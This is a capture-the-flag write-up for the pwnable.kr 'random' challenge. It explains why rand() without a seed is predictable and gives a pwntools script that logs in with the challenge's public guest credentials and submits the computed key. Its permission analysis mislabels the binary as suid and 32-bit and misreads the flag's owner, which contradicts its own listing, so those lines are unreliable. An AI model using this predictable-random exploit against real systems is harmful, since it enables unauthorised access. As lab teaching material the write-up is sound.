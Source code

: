# random Writeup

## Challenge infos

```text
Daddy, teach me how to use random value in programming!

ssh random@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
--- ls -la ---
total 44
drwxr-x---   5 root random      4096 Apr  5 09:49 .
drwxr-xr-x 118 root root        4096 Jun  1 12:05 ..
d---------   2 root root        4096 Jun 30  2014 .bash_history
-r--r-----   1 root random_pwn    34 Apr  5 09:45 flag
dr-xr-xr-x   2 root root        4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root root        4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root random_pwn 16232 Apr  5 09:49 random
-rw-r--r--   1 root root         335 Apr  5 09:49 random.c
--- id ---
uid=1012(random) gid=1012(random) groups=1012(random)
--- cat file---
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xcafebabe ){
                printf("Good!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}

--- file binary ---
random: setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=04c4d602c054138d2b75d9b8d1f00a53165be033, for GNU/Linux 3.2.0, not stripped
```
## Exploitation objective
* The ssh user is ```random```, group ```random```
* The ```flag``` file is readable only by the user ```random_pwn``` or the group ```root```
* The ```random``` binary is a 32bit ELF executable by the ```random_pwn``` user or members of the ```random``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```random``` executable we can gain read access to the ```flag``` file via suid user ```random_pwn```.

The ```random``` executable is certainly compiled from the ```random.c``` source code, let's have a look.

## C code analysis

```c
        unsigned int random;
        random = rand();        // random value!
```
* The program starts by declaring a variable ```random``` and assigning it a random value using the ```rand()``` function.

```c
        unsigned int key=0;
        scanf("%d", &key);
```

* Then it declares a variable ```key``` and reads an integer value from the user input into it.

```c
        if( (key ^ random) == 0xcafebabe ){
                printf("Good!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                return 0;
        }
```

* The program then checks if the bitwise XOR of the ```key``` and the ```random``` value is equal to ```0xcafebabe```. If it is, it prints "Good!", changes the group ID to the effective group ID and executes the command ```/bin/cat flag```, which will read the content of the ```flag``` file.

## rand function

* The ```rand()``` function generates a pseudo-random number. The sequence of numbers generated by ```rand()``` is determined by an initial seed value, which is set by the ```srand()``` function. If ```srand()``` is not called, the seed is set to a default value, which means that the sequence of random numbers will be the same every time the program is run.
* In this case, the program does not call ```srand()```, so the sequence of random numbers will be the same every time the program is run. This means that we can predict the value of ```random```.

## Exploitation

* To exploit this program, we need to find a value for ```key``` such that the bitwise XOR of ```key``` and the ```random``` value is equal to ```0xcafebabe```. This can be done by calculating ```key = random ^ 0xcafebabe```.
* Since we can predict the value of ```random```, we can calculate the value of ```key``` that will satisfy the condition.
* Once we have the correct value for ```key```, we can run the program and it will print "Good!", change the group ID to the effective group ID and execute the command ```/bin/cat flag```, which will read the content of the ```flag``` file.
* The content of the ```flag``` file is only readable by the user ```random_pwn``` or the group ```root```, but since the ```random``` binary is suid, it will run with the rights of its user, which is ```random_pwn```, allowing us to read the flag.


## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
not_random = 0x6b8b4567

payload = str(not_random ^ 0xcafebabe).encode('utf-8')
```
* Calculate the value of `key` that will satisfy the condition `key ^ random == 0xcafebabe`
```python
server = ssh('random', 'pwnable.kr', 2222, 'guest')
io = server.process(['./random'])

io.sendline(payload)

result = io.recvall()

io.close()
server.close()

print(result)
```
* Connect to the server via SSH using the `random` user and execute the `random` binary
* Send the calculated `key` value to the program
* Read the output of the program, which should include the content of the `flag` file if the exploitation is successful